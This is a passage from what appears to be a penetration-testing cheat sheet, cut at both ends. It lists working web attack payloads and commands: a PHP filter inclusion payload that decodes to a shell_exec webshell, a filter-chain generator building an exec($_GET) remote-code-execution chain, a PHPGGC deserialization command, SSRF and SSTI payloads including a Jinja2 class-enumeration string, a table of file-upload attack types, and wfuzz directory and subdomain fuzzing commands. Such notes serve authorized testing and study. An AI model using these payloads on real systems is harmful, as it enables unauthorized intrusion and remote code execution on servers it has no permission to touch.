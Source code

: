 </code></pre>
<pre><code class="language-c">http://&lt;RHOST&gt;/?page=php://filter/convert.base64-decode/resource=PD9waHAgZWNobyBzaGVsbF9leGVjKGlkKTsgPz4
</code></pre>
<pre><code class="language-c">python3 php_filter_chain_generator.py --chain '&lt;?= exec($_GET[0]); ?&gt;'
[+] The following gadget chain will generate the following code : &lt;?= exec($_GET[0]); ?&gt; (base64 value: PD89IGV4ZWMoJF9HRVRbMF0pOyA/Pg)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|&lt;--- SNIP ---&gt;|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp&amp;0=&lt;COMMAND&gt;
</code></pre>
<h4>PHP Generic Gadget Chains (PHPGGC)</h4>
<pre><code class="language-c">phpggc -u --fast-destruct Guzzle/FW1 /dev/shm/&lt;FILE&gt;.txt /PATH/TO/FILE/&lt;FILE&gt;.txt
</code></pre>
<h4>Server-Side Request Forgery (SSRF)</h4>
<pre><code class="language-c">https://&lt;RHOST&gt;/item/2?server=server.&lt;RHOST&gt;/file?id=9&amp;x=
</code></pre>
<h4>Server-Side Template Injection (SSTI)</h4>
<h5>Fuzz String</h5>
<blockquote>
<p>https://cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti</p>
</blockquote>
<p><code>${{&lt;%[%'&quot;}}%\.</code></p>
<h5>Magic Payload</h5>
<blockquote>
<p>https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee</p>
</blockquote>
<p><code>{{ ‘’.__class__.__mro__[1].__subclasses__() }}</code></p>
<h4>Upload Vulnerabilities</h4>
<pre><code class="language-c">ASP / ASPX / PHP / PHP3 / PHP5: Webshell / Remote Code Execution
SVG: Stored XSS / Server-Side Request Forgery
GIF: Stored XSS
CSV: CSV Injection
XML: XXE
AVI: Local File Inclusion / Server-Side request Forgery
HTML/JS: HTML Injection / XSS / Open Redirect
PNG / JPEG: Pixel Flood Attack
ZIP: Remote Code Exection via Local File Inclusion
PDF / PPTX: Server-Side Request Forgery / Blind XXE
</code></pre>
<h4>wfuzz</h4>
<pre><code class="language-c">wfuzz -w /usr/share/wfuzz/wordlist/general/big.txt -u http://&lt;RHOST&gt;/FUZZ/&lt;FILE&gt;.php --hc '403,404'
</code></pre>
<h5>Write to File</h5>
<pre><code class="language-c">wfuzz -w /PATH/TO/WORDLIST -c -f &lt;FILE&gt; -u http://&lt;RHOST&gt; --hc 403,404
</code></pre>
<h5>Custom Scan with limited Output</h5>
<pre><code class="language-c">wfuzz -w /PATH/TO/WORDLIST -u http://&lt;RHOST&gt;/dev/304c0c90fbc6520610abbf378e2339d1/db/file_FUZZ.txt --sc 200 -t 20
</code></pre>
<h5>Fuzzing two Parameters at once</h5>
<pre><code class="language-c">wfuzz -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -u http://&lt;RHOST&gt;:/&lt;directory&gt;/FUZZ.FUZ2Z -z list,txt-php --hc 403,404 -c
</code></pre>
<h5>Domain</h5>
<pre><code class="language-c">wfuzz --hh 0 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H 'Host: FUZZ.&lt;RHOST&gt;' -u http://&lt;RHOST&gt;/
</code></pre>
<h5>Subdomain</h5>